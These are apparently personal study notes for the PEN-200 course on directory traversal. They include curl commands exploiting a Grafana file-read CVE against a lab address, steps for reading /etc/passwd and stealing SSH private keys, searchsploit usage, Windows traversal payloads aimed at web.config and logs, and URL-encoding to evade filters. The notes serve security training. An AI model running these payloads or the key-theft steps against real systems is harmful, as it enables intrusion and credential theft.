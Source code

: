 ```yaml
---
title: "Chapter 9: Common WebApp Attacks- Code"
author: "James Heringer"
course: "PEN-200"
date: 2025-09-26
tags: [Code,CURL,IDOR,DIR,XSS,Encoding,File Inclusion,IDOR,LFI,RFI,PHP,Command Injection]
description: "the code blocks and terminal commands presented in the chapter 9"
draft: false
layout: cheatsheet
---
```

# Chapter 9: Common WebApp Attacks- Code

## DIR traversal

### Linux Attack Path 
1. DIR traverse to list users in /etc/passwd
2. Check found users home directory for SSH private keys, ~/.ssh/id_rsa
3. Retrieve private keys, and use them to SSH to host
```shell
chmod 400 priv_key   # set perms SSH private key
ssh -i priv_key -p 2222  offsec@mountaindesserts.com     # Use SSH private key to connect
```

* DIR traversal attack, sent PROXY through BURP
```shell
# [Grafana exploit](https://vk9-sec.com/grafana-8-3-0-directory-traversal-and-arbitrary-file-read-cve-2021-43798/) 
curl --path-as-is "http://192.168.232.193:3000/public/plugins/loki/../../../../../../../../../../../../../../users/install.txt" --proxy 127.0.0.1:8080 # burp proxy
curl --path-as-is "http://192.168.232.193:3000/public/plugins/loki/../../../../../../../../../../../../../../windows/system32/drivers/etc/hosts" # windows test file
```

* You can search for CVEs using built-in ExploitDB exploits : `/usr/share/exploitdb/exploits`
```shell
searchsploit -t grafana   # search by title
searchsploit --cve 2021-43798 -p  # search by CVE and return path
searchsploit -m multiple/webapps/50581.py # copies Exploit to current path
searchsploit -x multiple/webapps/50581.py # Examine/open in pager


```
* [Grafana exploit](https://vk9-sec.com/grafana-8-3-0-directory-traversal-and-arbitrary-file-read-cve-2021-43798/) 

### Windows
* Windows is slightly harder to execute DIR traversal.
* Try using both ../ and ..\ , as the WebServer might require one or the other, just Windows things
* try reading hosts file, which is global user readable, to identify if DIR traversal is possible 
```shell
../../../../windows/system32/drivers/etc/hosts # windows DIR traversal 
../../../../inetpub/wwwroot/web.config # windows DIR traversal
../../../../inetpub/logs/LogFiles/W3SVC1 # windows DIR traversal
```
## Encoding Special Characters 
* [W3 School URL Encoding Reference](https://www.w3schools.com/tags/ref_urlencode.asp)
* ` ../ ` is often filtered on the WebApp or firewall
* We use URL/Percent encoding to replace the filtered ASCII CHARS with HEX.
* Format is `%` followed by 2 Hex characters, i.e. `%2F`
* `.` = `%2e` && `/` = `%2f`
